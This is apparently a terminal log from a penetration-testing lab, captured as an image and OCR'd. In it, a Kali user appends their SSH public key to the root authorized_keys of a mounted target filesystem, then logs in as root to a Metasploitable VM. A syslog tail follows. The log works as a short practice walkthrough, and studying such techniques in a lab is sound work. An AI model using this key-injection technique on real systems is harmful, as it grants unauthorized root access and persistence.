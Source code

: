 
injection ssh clé publique

root@kali:/tmp/ifa# cat ~/.ssh/id_rsa.pub >> /tmp/ifa/
bin/        cdrom/      etc/        initrd/     lib/        media/      nohup.out   proc/       sbin/       sys/        usr/        vmlinuz
boot/       dev/        home/       initrd.img  lost+found/ mnt/        opt/        root/       srv/        tmp/        var/
root@kali:/tmp/ifa# cat ~/.ssh/id_rsa.pub >> /tmp/ifa/root/
.bash_history    .config/         .filezilla/      .gconf/          .gstreamer-0.10/ .profile         reset_logs.sh    .ssh/            vnc.log
.bashrc          Desktop/         .fluxbox/        .gconfd/         .mozilla/        .purple/         .rhosts          .vnc/            .Xauthority
root@kali:/tmp/ifa# cat ~/.ssh/id_rsa.pub >> /tmp/ifa/root/
.bash_history    .config/         .filezilla/      .gconf/          .gstreamer-0.10/ .profile         reset_logs.sh    .ssh/            vnc.log
.bashrc          Desktop/         .fluxbox/        .gconfd/         .mozilla/        .purple/         .rhosts          .vnc/            .Xauthority
root@kali:/tmp/ifa# cat ~/.ssh/id_rsa.pub >> /tmp/ifa/root/.ssh/authorized_keys
root@kali:/tmp/ifa#


root@kali:/tmp/ifa# umount /tmp/ifa
root@kali:/tmp/ifa# ssh root@192.168.152.135
Last login: Thu Mar 30 09:07:43 2017 from 192.168.152.130
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
You have mail.
root@metasploitable:~#

root@kali:/tmp/ifa# tail -n 10 /var/log/sys
syslog       syslog.1     syslog.2.gz  syslog.3.gz  syslog.4.gz  syslog.5.gz  syslog.6.gz  syslog.7.gz  sysstat/
root@kali:/tmp/ifa# tail -n 10 /var/log/syslog
Mar 30 12:13:29 kali systemd[1]: Starting RPC bind portmap service...
Mar 30 12:13:29 kali systemd[1]: Started RPC bind portmap service.
Mar 30 12:13:29 kali systemd[1]: Reached target RPC Port Mapper.
Mar 30 12:13:29 kali systemd[1]: Reached target Remote File Systems (Pre).
Mar 30 12:13:29 kali systemd[1]: Started NFS status monitor for NFSv2/3 locking..
Mar 30 12:15:01 kali CRON[3896]: (root) CMD (command -v debian-sa1 > /dev/null && debian-sa1 1 1)
Mar 30 12:17:01 kali CRON[3904]: (root) CMD (   cd / && run-parts --report /etc/cron.hourly)
Mar 30 12:20:06 kali dhclient[645]: DHCPREQUEST of 192.168.152.130 on eth0 to 192.168.152.254 port 67
Mar 30 12:20:06 kali dhclient[645]: DHCPACK of 192.168.152.130 from 192.168.152.254
Mar 30 12:20:06 kali dhclient[645]: bound to 192.168.152.130 -- renewal in 775 seconds.
root@kali:/tmp/ifa#
